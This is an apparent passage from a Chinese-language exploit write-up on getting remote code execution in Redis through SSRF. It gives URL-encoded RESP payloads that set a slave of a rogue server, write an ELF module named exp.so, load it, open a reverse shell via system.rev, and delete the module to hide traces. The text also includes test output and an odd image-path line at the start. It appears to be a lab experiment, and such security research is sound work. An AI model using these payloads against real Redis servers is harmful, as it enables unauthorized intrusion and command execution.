 ```shell
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK

127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "exp.so"
```
在不开启redis rogue server的情况下，构造三段payload测试依次发送，
```shell
*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$9%0d%0a127.0.0.1%0d%0a$4%0d%0a2333%0d%0a*4%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$6%0d%0aexp.so%0d%0a

%2bFULLRESYNC%20ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ%201%0d%0a%2444328%0d%0a%7fELF%02%01%01%00%00%00%00%00%00%00%00%00%03%00%3e%00%01%00%00%00%80%28%00%00%00%00%00%00%40%00%00%00%00%00%00%00%28%a7%00%00%00%00%00%00%00%00%00%00%40%008%00%05%00%40%00%18%00%17%00%01%00%00%00%05%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00DH%00%00%00%00%00%00DH%00%00%00%00%00%00%00%00%20%00%00%00%00%00%01%00%00%00%06%00%00%00%a0N%00%00%00%00%00%00%a0N%20%00%00%00%00%00%a0N%20%00%00%00%00%00%f0%01%00%00%00%00%00%00%d0%05%00%00%00%00%00%00%00%00%20%00%00%00%00%00%02%00%00%00%06%00%00%00%a0N%00%00%00%00%00%00%a0N%20%00%00%00%00%00%a0N%20%00%00%00%00%00%60%01%00%00%00%00%00%00%60%01%00%00%00%00%00%00%08%00%00%00%00%00%00%00Q%e5td%06%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%10%00%00%00%00%00%00%00R%e5td%04%00%00%00%a0N%00%00%00%00%00%00%a0N%20%00%00%00%00%00%a0N%20%00%00%00%00%00%60%01%00%00%00%00%00%00%60%01%00%00%00%00%00%00%01%00%00%00%00%00%00%00%83%00%00%00%92%00%00%00%00%00%00%004%00%00%00%00%00%00%00V%00%00%00u%00%00%00H%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%20%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%1d%00%00%00%83%00%00%00%00%00%00%00%00%00%00%00%09%00%00%005%00%00%00E%00%00%001%00%00%00%11......

*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$2%0d%0aNO%0d%0a$3%0d%0aONE%0d%0a*3%0d%0a$10%0d%0asystem.rev%0d%0a$9%0d%0a127.0.0.1%0d%0a$4%0d%0a3000%0d%0a*4%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$8%0d%0adump.rdb%0d%0a*2%0d%0a$11%0d%0asystem.exec%0d%0a$11%0d%0arm ./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$6%0d%0aUNLOAD%0d%0a$6%0d%0asystem%0d%0a
```
其中在第二段payload在`+FULLRESYNC`发送的时候报错，

```shell
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
-ERR unknown command '+FULLRESYNC'
-ERR unknown command '$44328'
```

提示没有`+FULLRESYNC`命令，因为以`+`开头的命令是响应包，我们尝试把`+`去掉，再次发包，

```shell
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
-ERR unknown command 'FULLRESYNC'
-ERR unknown command '$44328'
```
依然不行，看来还是需要rogue server与之自然交互。

